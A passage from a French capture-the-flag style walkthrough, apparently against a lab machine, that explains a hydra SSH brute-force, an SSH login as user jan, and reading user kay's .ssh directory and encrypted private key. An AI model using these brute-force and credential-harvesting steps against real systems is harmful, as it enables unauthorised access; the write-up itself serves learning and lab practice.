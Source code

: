 **Explication:**
- `hydra` est un outil de force brute pour les services de connexion.
- `-l` spécifie le nom d'utilisateur.
- `-P` spécifie le chemin vers le fichier de wordlist.
- On attaque le service SSH.

### Étape 7: Connexion SSH

**Commande:**
```bash
ssh jan@10.10.56.151
```

**Explication:**
- Utiliser les identifiants trouvés pour se connecter au serveur via SSH.

### Étape 8 : Accès au Fichier de Kay et Crack de la Clé SSH

Je suis tombé sur un fichier `pass.bak` dans le répertoire de l'utilisateur `kay`, mais je n'avais pas les permissions nécessaires pour l'ouvrir. J'ai donc exploré d'autres moyens d'obtenir un accès en examinant le répertoire `.ssh` de `kay`.

### Exploration du Répertoire `.ssh`

**Commande:**
```bash
cd /home/kay/.ssh
ls
```

**Résultats:**
```
authorized_keys  id_rsa  id_rsa.pub
```

**Analyse:**
- **authorized_keys**: Contient les clés publiques autorisées pour se connecter au compte.
- **id_rsa**: Clé privée RSA, essentielle pour l'authentification SSH.
- **id_rsa.pub**: Clé publique associée à la clé privée `id_rsa`.

### Extraction de la Clé Privée

J'ai enregistré le contenu de `id_rsa` pour tenter de l'utiliser.

**Commande:**
```bash
cat id_rsa
```

**Résultats:**
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,6ABA7DE35CDB65070B92C1F760E2FE75

...
-----END RSA PRIVATE KEY-----
```
